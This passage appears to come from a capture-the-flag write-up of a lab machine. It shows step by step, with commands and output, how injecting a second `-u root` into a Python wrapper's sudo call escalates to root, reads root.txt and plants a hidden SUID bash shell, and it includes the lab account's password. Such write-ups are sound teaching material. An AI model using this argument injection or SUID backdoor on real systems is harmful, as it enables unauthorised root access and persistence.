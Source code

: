 

The string passed to `subprocess.Popen` is
`sudo -u [user] [user input]`. The trick here is to pass a second
`-u root` before the rest of the command. To demonstrate, my local kali
host has a user, df:



    root@kali# sudo -u df id
    uid=1000(df) gid=1000(df) groups=1000(df),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),132(scanner)
    root@kali# sudo -u df -u root id
    uid=0(root) gid=0(root) groups=0(root)



So, I'll run the program normally, auth as robert, but then use it to
read `root.txt`:



    robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: robert
    Enter password: SecThruObsFTW
    Authed!
    robert@Obscure$ -u root cat /root/root.txt
    Output: 512fd442************************



I could easily get a shell from here. For example, I can make a SUID
`bash`:



    robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: robert
    Enter password: SecThruObsFTW
    Authed!
    robert@Obscure$ -u root cp /bin/bash /tmp/.0xdf
    Output: 

    robert@Obscure$ -u root chmod 4755 /tmp/.0xdf
    Output: 

    robert@Obscure$ ^CTraceback (most recent call last):
      File "/home/robert/BetterSSH/BetterSSH.py", line 57, in <module>
        command = input(session['user'] + "@Obscure$ ")
    KeyboardInterrupt



Now run it with `-p` to keep priv:



    robert@obscure:/tmp$ ./.0xdf -p
    .0xdf-4.4# id
    uid=1000(robert) gid=1000(robert) euid=0(root) groups=1000(robert),4(adm),24(cdrom),30(dip),46(plugdev)

